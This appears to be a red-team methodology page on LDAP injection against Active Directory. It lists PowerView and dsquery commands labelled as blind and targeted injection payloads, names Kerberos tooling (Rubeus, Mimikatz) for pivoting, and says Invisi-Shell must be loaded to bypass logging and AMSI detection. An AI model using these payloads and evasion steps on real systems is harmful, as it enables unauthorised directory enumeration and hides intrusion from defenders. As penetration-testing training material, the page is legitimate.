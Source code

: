 | Finding | Immediate Pivot | Goal | Tool/Technique |
|---------|-----------------|------|----------------|
| App accepts raw filters | Domain enumeration | Validate object counts | Get-DomainObject, Get-ADObject |
| User/Group leakage | User enumeration | Map targets | Get-DomainUser, Get-DomainGroup |
| Auth bypass hints | Kerberos attacks | Ticket pivots | Rubeus, Mimikatz |
| Privilege escalation | ACL analysis | Rights abuse | Get-DomainObjectAcl |

---

## 🛠️ **COMPREHENSIVE ENUMERATION TOOLS**

### 🔧 Microsoft‑Signed & Native
- `Get-ADObject -LDAPFilter "(objectClass=*)" -ResultSetSize 10` — Basic injection test
- `dsquery * -filter "(objectClass=user)"` — Native LDAP query tool
- `ldp.exe` — GUI LDAP client for manual testing
- `Test-NetConnection -ComputerName DC01 -Port 389` — LDAP port validation

### ⚔️ Offensive (PowerView/SharpView)
```powershell
Get-DomainObject -LDAPFilter "(objectClass=*)" -Properties *
Get-DomainObject -LDAPFilter "(|(objectClass=user)(objectClass=group))" -Properties *
Get-DomainObject -LDAPFilter "(&(objectClass=user)(sAMAccountName=*admin*))" -Properties *
# Injection payloads
Get-DomainObject -LDAPFilter "(|(cn=a*)(cn=b*))" -Properties cn
Get-DomainObject -LDAPFilter "(&(objectClass=*)(objectClass=*))" -Properties *
```

### 🔴 Red Team (LDAP Injection)
```cmd
Get-DomainObject -LDAPFilter "(objectClass=*)" -ResultSetSize 100              :: Basic injection
Get-DomainObject -LDAPFilter "(|(cn=a*)(cn=b*))" -Properties cn               :: Blind injection
Get-DomainObject -LDAPFilter "(&(objectClass=user)(sAMAccountName=*admin*))"  :: Targeted injection
dsquery * -filter "(objectClass=*)" -limit 50                                 :: Native tool test
ldp.exe                                                                        :: Manual testing
```

> **🔒 STEALTH REQUIREMENT**: **Invisi-Shell** must be loaded before any LDAP injection testing in production environments to bypass logging and AMSI detection.

---

## Stealth & Loading
Use [01_Tool_Setup_Loading.md](./01_Tool_Setup_Loading.md) for stealth session and prep. Continue here with LDAP‑injection testing and analysis only.

## CyberCorp Persona
- Persona: Maia Chen, AppSec Engineer. Target: legacy HR portal that passes user input into LDAP search for login and directory.
